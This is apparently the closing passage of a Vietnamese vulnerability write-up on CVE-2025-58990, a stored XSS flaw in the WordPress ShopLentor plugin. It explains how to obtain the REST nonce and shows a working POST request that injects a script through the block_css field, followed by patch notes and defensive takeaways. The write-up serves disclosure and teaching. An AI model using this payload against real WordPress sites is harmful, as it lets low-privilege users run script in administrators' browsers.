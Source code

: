 ```json
{
    "code":"rest_forbidden",
    "message":"Sorry, you are not allowed to do that.",
    "data":{
        "status":401
    }
}
```

👉 Thiếu header **X-WP-Nonce** để phân quyền người dùng. Ta mở source HTML (<kbd>Ctrl</kbd>+<kbd>U</kbd>) trang chỉnh sửa bài viết: 

```
view-source:http://localhost/wp-admin/post.php?post=<post_id>&action=edit
```

Tìm `wpApiSettings` trong source và lấy giá trị `nonce`

![wpApiSettings](images/posts/2025-09-17-CVE-2025-58990/api_search.png)

Gửi request với **X-WP-Nonce** có giá trị vừa lấy được

```http
POST /wp-json/woolentor/v1/save_css HTTP/1.1
Host: localhost
X-WP-Nonce: f79ec79e4b
Content-Type: application/json

{
"post_id":1416,
"has_block":true,
"block_css":"</style><script>alert(document.domain)</script><style>"
}
```

**Preview post**

![Preview](images/posts/2025-09-17-CVE-2025-58990/preview.png)

👉 XSS thành công, **inspect** để xem code được thay đổi như nào

**View source code**

![Code](images/posts/2025-09-17-CVE-2025-58990/code.png)

## Conclusion
Lỗ hổng **CVE-2025-58990** trong plugin **ShopLentor <= 3.2.0** cho phép **contributor** chèn CSS độc hại dẫn đến Stored XSS khi admin/author preview hoặc xem post. Bản vá **3.2.1** bổ sung kiểm tra quyền và sanitize CSS, ngăn chặn khai thác.

**Key takeaways**:
- Luôn kết hợp **kiểm tra quyền** và **sanitize** dữ liệu khi xử lý input từ người dùng.
- Các role thấp (như **contributor**) vẫn có thể trở thành điểm tấn công nếu API không bảo vệ đúng cách.
- **Stored XSS** trong WordPress thường xuất hiện khi dữ liệu được lưu DB/file => render inline mà không lọc.
- Việc cập nhật plugin kịp thời là biện pháp phòng thủ đơn giản nhưng hiệu quả nhất.

--- 